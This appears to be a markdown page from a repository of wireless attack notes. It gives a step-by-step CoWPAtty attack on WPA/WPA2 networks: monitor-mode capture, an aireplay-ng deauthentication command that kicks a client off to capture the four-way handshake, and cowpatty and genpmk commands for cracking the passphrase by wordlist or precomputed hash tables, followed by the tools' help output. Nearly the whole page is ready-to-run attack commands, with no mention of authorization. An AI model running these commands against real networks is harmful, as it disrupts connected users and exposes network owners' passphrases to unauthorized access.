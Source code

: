 # CoWPAtty Attack (WPA/WPA2)

Use CoWPAtty to crack the password in either dictionary/wordlist mode (plaintext) or hash/rainbow. The latter is quicker.

## Installation

```bash
# Install cowpatty/genpmk
sudo apt-get update
sudo apt-get install cowpatty -y
```

## Commands

* Run [setup](../../setup.md) first
* Two terminals are needed
* At least on client associated with the AP

```bash
# [Terminal One]
# Set interface to monitor mode
sudo airmon-ng start $INTERFACE

# Start monitoring - make terminal large enough to see everything
sudo airodump-ng -c $CHANNEL --bssid $BSSID -w $TAG --output-format pcap $INTERFACE

# [Terminal Two]
# Run the deauthentication attack to get four-way handshake
sudo aireplay-ng --deauth 1 -a $BSSID -c $CLIENT $INTERFACE

# Wait for the four-way handshake to appear in airodump-ng window.

# Stop airodump-ng when it appears
qq

# Check if four-way handshake is indeed valid
cowpatty -r $PCAP -c
```

![cowpatty-check](../../images/cowpatty-check.png)

## WORDLIST Mode

* Crack the password in hash mode (slowest)

```bash
# Crack the password in dictionary mode
# Cowpatty running wordlist is slower than aircrack-ng
cowpatty -r $PCAP -f $WORDLIST -s $SSID
```

![cowpatty-check](../../images/cowpatty-crack.png)

## RAINBOW Mode

* Crack the password in hash mode (fastest)

```bash
# Need to first generate a RAINBOW table based on a provided WORDLIST/SSID
genpmk -f $WORDLIST -d $RAINBOW -s $SSID

## Crack the password with the RAINBOW table and filter by SSID
cowpatty -r $PCAP -d $RAINBOW -s $SSID
```

![cowpatty-check](../../images/cowpatty-crack-rainbow.png)

## References

* [cowpatty](https://www.willhackforsushi.com/?page_id=50)

```text
cowpatty -h
cowpatty 4.8 - WPA-PSK dictionary attack. <jwright@hasborg.com>

Usage: cowpatty [options]

        -f      Dictionary file
        -d      Hash file (genpmk)
        -r      Packet capture file
        -s      Network SSID (enclose in quotes if SSID includes spaces)
        -c      Check for valid 4-way frames, does not crack
        -h      Print this help information and exit
        -v      Print verbose information (more -v for more verbosity)
        -V      Print program version and exit
```

```text
genpmk -h
genpmk 1.3 - WPA-PSK precomputation attack. <jwright@hasborg.com>
Usage: genpmk [options]

        -f      Dictionary file
        -d      Output hash file
        -s      Network SSID
        -h      Print this help information and exit
        -v      Print verbose information (more -v for more verbosity)
        -V      Print program version and exit

After precomputing the hash file, run cowpatty with the -d argument.
```

![fourway-handshake](../../images/fourway-handshake.png)

## References

* [Aircrack-ng](https://www.aircrack-ng.org/doku.php?id=aircrack-ng)
* [Aireplay-ng](https://www.aircrack-ng.org/doku.php?id=aireplay-ng)
* [Airmon-ng](https://www.aircrack-ng.org/doku.php?id=airmon-ng)
* [Airodump-ng](https://www.aircrack-ng.org/doku.php?id=airodump-ng)
* [Cowpatty](https://www.willhackforsushi.com/?page_id=50)
* [Rainbow Tables](https://en.wikipedia.org/wiki/Rainbow_table)
